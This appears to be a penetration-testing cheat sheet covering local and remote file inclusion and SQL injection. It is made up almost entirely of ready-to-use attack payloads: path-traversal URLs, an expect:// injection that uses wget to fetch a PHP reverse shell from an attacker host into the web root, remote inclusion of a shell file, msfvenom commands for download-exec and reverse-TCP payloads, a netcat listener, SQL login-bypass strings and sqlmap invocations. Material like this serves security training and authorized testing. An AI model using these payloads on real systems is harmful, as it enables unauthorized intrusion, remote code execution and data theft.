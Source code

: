 ```
# FImap
fimap -u "http://INSERTIPADDRESS/example.php" -v 3
http://kaoticcreations.blogspot.com/2011/08/automated-lfirfi-scanning-exploiting.html

# Checks
http://INSERTIPADDRESS/?page=../../../../windows/system32/drivers/etc/hosts
http://INSERTIPADDRESS/?page=../../../../windows/system32/drivers/etc/hosts%00
http://INSERTIPADDRESS/?page=%2f..%2f..%2fwindows/system32/drivers/etc/hosts
http://INSERTIPADDRESS/?page=%2f..%2f..%2fwindows/system32/drivers/etc/hosts%00

http://INSERTIPADDRESS/?page=expect://dir
*If you get a warning include() error it is not affected
Else for shell:
POST this with tamper data to http://INSERTIPADDRESS/gallery.php?page=expect://dir
<? system('wget http://10.11.0.150/php-reverse-shell.php -O /inetpub/wwwroot/shell.php');?>
Then navigate to
http://INSERTIPADDRESS/shell.php

http://INSERTIPADDRESS/index.php?page=php://filter/convert.base64-encode/resource=../../../../windows/system32/drivers/etc/hosts
base64 -d output of above

# Bypass extension
python -m SimpleHTTPServer 80
http://INSERTIPADDRESS/page=http://10.11.0.150/shell.txt%00
http://INSERTIPADDRESS/page=http://10.11.0.150/shell.txt?

# Shell Creation

msfvenom -p php/download_exec URL=http://MYIPADDRESS/shell.exe -f raw -o shell.php
msfvenom -p windows/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=443 -f exe > shell.exe
python -m SimpleHTTPServer 80

nc -nvlp 443
```


#### SQL-Injection

```
# Login Bypass Checks
Username/Password: 
1' or '1'='1 
1' or 1=1 LIMIT 1;# 
'or 1=1/*
'or '1'='1' --
'or '1'='1' ({
'or '1'='1' /*

# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
```
